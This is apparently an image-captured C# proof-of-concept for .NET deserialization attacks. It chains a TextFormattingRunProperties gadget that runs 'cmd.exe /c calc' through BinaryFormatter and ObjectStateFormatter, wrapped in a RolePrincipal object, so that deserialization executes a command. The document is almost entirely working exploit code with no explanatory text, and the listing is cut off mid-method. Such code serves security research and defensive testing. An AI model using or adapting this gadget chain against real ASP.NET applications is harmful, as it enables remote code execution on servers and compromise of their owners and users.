 ```plain
namespace ObjectStateFormatterSerialize
{
    class Program
    {
        static void Main(string[] args)
        {
            TextFormattingRunPropertiesMarshal calc = new TextFormattingRunPropertiesMarshal("calc");
            string b64payload;
            using (MemoryStream m = new MemoryStream())
            {
                BinaryFormatter binaryFormatter = new BinaryFormatter();
                binaryFormatter.Serialize(m, calc);
                b64payload = Convert.ToBase64String(m.ToArray());
            }
            RolePrincipalMarshal rolePrincipalMarshal = new RolePrincipalMarshal(b64payload);
            ObjectStateFormatter objectStateFormatter = new ObjectStateFormatter();
            string p = objectStateFormatter.Serialize(rolePrincipalMarshal);
            objectStateFormatter.Deserialize(p);
        }


    }
    [Serializable]
    public class RolePrincipalMarshal : ISerializable
    {
        public RolePrincipalMarshal(string b64payload)
        {
            B64Payload = b64payload;
        }

        private string B64Payload { get; }

        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            info.SetType(typeof(System.Web.Security.RolePrincipal));
            info.AddValue("System.Security.ClaimsPrincipal.Identities", B64Payload);
        }
    }
    [Serializable]
    public class TextFormattingRunPropertiesMarshal : ISerializable
    {
        protected TextFormattingRunPropertiesMarshal(SerializationInfo info, StreamingContext context)
        {
        }
        string _xaml;
        public void GetObjectData(SerializationInfo info, StreamingContext context)
        {
            Type typeTFRP = typeof(TextFormattingRunProperties);
            info.SetType(typeTFRP);
            info.AddValue("ForegroundBrush", _xaml);
        }
        public TextFormattingRunPropertiesMarshal(string cmd)
        {
            // ObjectDataProvider
            ProcessStartInfo psi = new ProcessStartInfo();
            psi.FileName = "cmd.exe";
            psi.Arguments = $"/c {cmd}";
            StringDictionary dict = new StringDictionary();
            psi.GetType().GetField("environmentVariables", BindingFlags.Instance | BindingFlags.NonPublic).SetValue(psi, dict);
            Process p = new Process();
```